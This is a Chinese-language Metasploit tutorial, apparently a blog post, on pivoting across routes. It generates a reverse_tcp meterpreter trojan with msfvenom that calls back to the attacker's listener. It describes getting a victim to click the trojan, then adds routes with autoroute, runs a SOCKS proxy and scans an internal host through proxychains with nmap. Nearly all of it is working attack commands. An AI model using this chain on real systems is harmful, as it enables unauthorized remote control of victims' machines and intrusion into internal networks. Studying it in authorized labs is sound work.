










MSF跨路由扫描
整体思路

前提:
处于外网的kali(10.10.10.11)不能ping通处于内网的server2012(12.12.12.11)

生成木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.11 LPORT=6666 -f exe > shell.exe
LHOST/LPORT是kali端的地址和端口
kali进入msf开启监听
1
2
3
4
5
6
7
| └─
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
|
框中的地方需要设置的是木马生成时所填写的LHOST/LPORT

1
2
3
| msf6 exploit(multi/handler) > set LHOST 10.10.10.11
msf6 exploit(multi/handler) > set LPORT 6666
|
设置完成之后,再次show options 查看是否配置成功

此时已经配置完成
通过命令 run 开启监听

将木马上传至受害机中,当受害者点击木马时,攻击者将会获得权限进行控制
建立隧道
1
2
3
| meterpreter > ipconfig
meterpreter > run get_local_subnets -> 查看有多少网卡
|

1
| meterpreter > run autoroute -s 12.12.12.0/24 -> kali远程给win7写一个路由表
|

1
| crtl+z -> 后台挂起 session -> 查看属于哪个会话
|

msf6 exploit(multi/handler) > route add 12.12.12.0 255.255.255.0 1 -> 给msf写路由表,方便转发(1为会话 session 1)
1
| msf6 exploit(multi/handler) > route print -> 查看是否配置路由成功
|

1
2
3
4
5
| msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy -> 选择模块,配置代理
msf6 auxiliary(server/socks_proxy) > show options -> 默认可以不更改
msf6 auxiliary(server/socks_proxy) > run
|

修改配置文件
kali配置代理(proxychain):
1
| └─# vim /etc/proxychains4.conf -> 滑到[ProxyList],查看代理列表
|
修改代理版本和端口:socke5 127.0.0.1 1080

1
| └─# proxychains nmap -sT 12.12.12.11 -p 80-100
|
